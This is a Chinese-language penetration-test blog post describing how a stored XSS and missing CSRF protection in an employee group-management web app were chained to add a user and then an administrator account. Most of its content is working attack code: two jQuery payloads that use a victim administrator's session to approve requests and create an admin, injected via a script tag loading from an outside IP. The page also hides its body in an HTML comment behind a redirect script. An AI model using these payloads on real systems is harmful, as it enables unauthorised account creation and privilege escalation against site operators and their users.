 +++
title = "记一次渗透测试中利用存储型XSS添加用户"
topics = ["Pentest"]
tags = ["xss"]
description = "渗透测试中遇到了一个存储型的XSS，但是有httponly，所以第一次尝试通过写js来攻击目标从而添加用户。"
date = "2018-11-14T10:36:38+08:00"
draft = false
+++

<script>
    $(document).ready(function(){
        window.location.href='/404.html';
    });
</script>

<!--

### 0x00 简单查看
拿到目标后简单看了下，是一个类似员工管理的东西，用户可以创建group，其他用户可以搜索这个group然后申请加入

每个账号都可以注册组织，然后让别人加入，加入的用户有创建者、管理员、默认成员3个角色，管理员拥有的权限就比较大了，可以查看通讯录、添加成员、删除成员等等

### 0x01 申请加入组织流程分析
走了一遍流程，注册了两个账号，一个是reber，一个是yxk

在加入某组织时会让填验证信息，组织收到申请后同意然后把用户添加到某个分组然后确定

流程大概分4步，用户申请加入group、管理员点击同意、管理员关联用户到分组或成员、确定同意用户的申请

* 用户reber搜索组织，然后提交验证消息
![80](/img/post/20181114-110536.png)

* 用户yxk在消息列表同意reber的申请
![80](/img/post/20181114-110838.png)

* yxk给reber分组，点击下一步

* 最后一步写入备注信息，点击同意按钮最终同意用户加入
![70](/img/post/20181114-111139.png)



### 0x02 请求链接分析
经过对上面流程的抓包分析测试，涉及到的有用请求有3个：管理员点击同意链接时的请求、关联到分组或成员的请求、确定同意的请求

* 用户申请加入某group时发送的数据包如下：

```
API：/a/cms/org/applyorg
POST：verification=11111&orgId=247173
```

* group管理员同意用户申请时链接如下：

```
API：/a/cms/apply/handle-accept?id=6de027c0-9a4f-490e-a5e2-d1c76cd34a70&oid=247178&name=1760048****
```
这里链接里有一个id，经过抓包发现可以通过/a/cms/apply/applymsg这个接口直接得到同意申请时的链接

* 将申请用户关联到分组或成员涉及到如下数据包：

```
API：/a/cms/apply/do.handle
POST：ID=80b49e8f-4e8c-450f-8bf4-eb809271e779&OID=247178&GID=608863&MID=0&Agree=true&Reason=111
```

可以看到，上面的请求链接中都没有token，存在CSRF，就猜想能不能构造上述请求从而通过XSS和CSRF来做一些事情

### 0x03 构造直接添加用户到group的js
由于cookie设置了httponly，不能获取到完整的cookie，所以这里尝试写js代码，实现将用户直接加入group的功能

看了上面的请求包分析后发现，如果要构造数据包实现我们的想法的话需要有：ID、OID、GID这3个id

分析后发现在/a/cms/apply/applymsg请求的返回包中有同意的链接，链接中有ID

分析后发现在/a/cms/group/treeNode请求的返回包中有OID和GID

于是用于XSS的1.js内容构造如下：

```
//因为这里要把ajax的返回值return到函数中，需要是同步请求，所以async要设为false

function get_agree_url(){//得到管理员同意用户申请的链接
    var agree_url;
    var href;
    $.ajax({
        type: 'get',
        url: '/a/cms/apply/applymsg',
        async: false,
        success: function(data){
            $(data).find('#accept').each(function(index,element){
                href = $(this).attr('href');
                if (/id=.*?name=1760048****/.test(href)){
                    agree_url = href;
                }
            });
        }
    });
    return agree_url;
}

function get_oid_gid(){//得到oid和gid
    var oid;
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            oid = data[0]['dataObject']['orgId'];
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return {
        'oid':oid,
        'gid':gid
    };
}

function attack(){
    var agree_url = get_agree_url();
    var id = /id=(.*?)&/.exec(agree_url)[1];
    var oid_gid = get_oid_gid();
    var oid = oid_gid['oid'];
    var gid = oid_gid['gid'];

    $.get(agree_url);//同意用户加入group

    var step2_url = '/a/cms/apply/handle-accept2?ID='+id+'&OID='+oid+'&Name=176004****'+'&GID='+gid+'&MID=0';
    $.get(step2_url);//关联到分组或成员

    $.post('/a/cms/apply/do.handle',{ID:id,OID:oid,GID:gid,MID:0,Agree:true,Reason:'111'});//最终确认同意，设置备注
}

attack();
```

### 0x04 进行XSS攻击添加用户
用户reber尝试加入yxk的组织并提交恶意代码：```test<script src=//114.115.123.123/wyb/1.js></script>```
![80](/img/post/20181114-121432.png)

当用户yxk浏览用户申请列表页面时触发XSS
![80](/img/post/20181114-121938.png)

回到reber用户，可以看到已经加入了yxk的组织，可以进行一些操作了
![80](/img/post/20181114-122147.png)

### 0x05 更进一步，添加为管理员
刚开始分析发现通过上面的过程先添加用户，然后再添加用户为管理员，比较麻烦

后续发现其实不用这么麻烦，直接用另外一个接口发送ajax请求就能直接添加管理员用户

添加管理员的2.js如下：

```
function get_gid(){
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return gid;
}

var gid = get_gid();

$.post('/a/cms/member/do.save',{memberId: 0,userId: '',mobile: '176004****',name: 'aaa',pinyin: 'aaa',groupId: 608863,group: '默认分组',roleId: 2,duty: '',sex: 0,sort: '10000','TEL;CELL': '','TEL;WORK': '',EMAIL: ''});
```

提交验证信息为：```test<script src=//114.115.123.123/wyb/2.js></script>```

当yxk访问请求的list页面时即可直接添加新用户aaa到group并且是管理员账户： 
![80](/img/post/20181114-123006.png)

好了，打完收工！

<br/>
PS：漏洞已提交，并早在3个月前修复

 -->